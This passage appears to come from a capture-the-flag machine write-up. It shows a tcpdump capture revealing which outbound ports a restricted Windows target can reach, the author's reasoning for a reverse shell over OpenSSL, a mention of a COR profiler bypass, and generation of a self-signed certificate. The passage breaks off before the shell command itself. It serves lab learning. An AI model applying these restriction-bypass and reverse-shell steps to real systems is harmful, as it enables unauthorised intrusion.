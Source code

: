 

Monitoring the `tcpdump` window reveals the two open ports:



    root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:00:58.213236 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:00:59.163625 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    07:01:42.997152 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:01:43.920329 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,nop,sackOK], length 0



### Shell via OpenSSL

#### Why

I've already shown that from my current access, I can't run PowerShell.
Now that I have identified some open ports, I could try to bring a
binary to target that would connect back to me on one of them, but this
box is quite hostile to letting me run much. I do understand there's a
way to bypass the restrictions using COR PROFILERS. If I have a chance
to figure that out, I may add a follow up post later. But for now I went
with OpenSSL for a shell.

#### Generate SSL Cert

With two ports I can communicate on and `openssl`, I can make a more
stable shell. First I need SSL certs for the connection.



    root@kali# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes                                                                                    
    Generating a RSA private key
    .................................................................................................................................++++                                                                                      
    ..................................++++
    writing new private key to 'key.pem'
    -----
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:
    State or Province Name (full name) [Some-State]:
    Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:
    Organizational Unit Name (eg, section) []:
    Common Name (e.g. server FQDN or YOUR name) []:
    Email Address []:
